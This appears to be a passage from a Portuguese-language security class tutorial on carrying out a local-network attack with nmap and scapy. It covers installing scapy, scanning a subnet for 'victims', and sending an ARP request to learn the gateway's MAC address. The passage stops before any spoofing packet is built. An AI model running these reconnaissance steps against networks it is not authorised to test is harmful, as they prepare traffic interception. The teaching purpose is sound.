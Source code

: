 ### O ataque na prática

Para realizar o ataque, usaremos duas ferramentas, principalmente: o nmap e o scapy

**Nmap**

Falaremos melhor em aulas futuras, mas, resumidamente, é um programa que realiza port scan, descobrindo hosts e serviços em uma rede.

**Scapy**

Scapy é uma ferramenta que permite ao usuário enviar, sniffar, dissecar e forjar pacotes.

**1. Instalação**

```bash
$ git clone https://github.com/secdev/scapy.git
$ cd scapy
$ sudo python3 setup.py install
```
ou
```bash 
$ sudo apt install python3-scapy
```

**O ataque**
* Passo 0: identificar hosts (vítimas) na rede

```bash
$ sudo nmap 192.168.1.0/24 -sC
```

Supondo que o atacante tenha achado o host ```192.168.1.101```
* Iniciando o Scapy

```bash
$ scapy
```

* 1º passo: Identificar o MAC Address da vítima e do default * gateway
* Solução: arp request e arp reply
* Default gateway:

```bash
>>> arprequest1 = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst = "192.168.1.1")
>>> arprequest1.show()
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 28:56:5a:49:ff:67
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 28:56:5a:49:ff:67
     psrc= 192.168.1.103
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.1.1

>>> arpreply1 = srp(arprequest1)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> arpreply1[0][0][1]
(<<Ether  dst=28:56:5a:49:ff:67 src=c4:e9:84:9a:14:16 type=ARP |<ARP
hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=is-at hwsrc=c4:e9:84:9a:14:16
psrc=192.168.1.1 hwdst=28:56:5a:49:ff:67 pdst=192.168.1.103 |>>)
```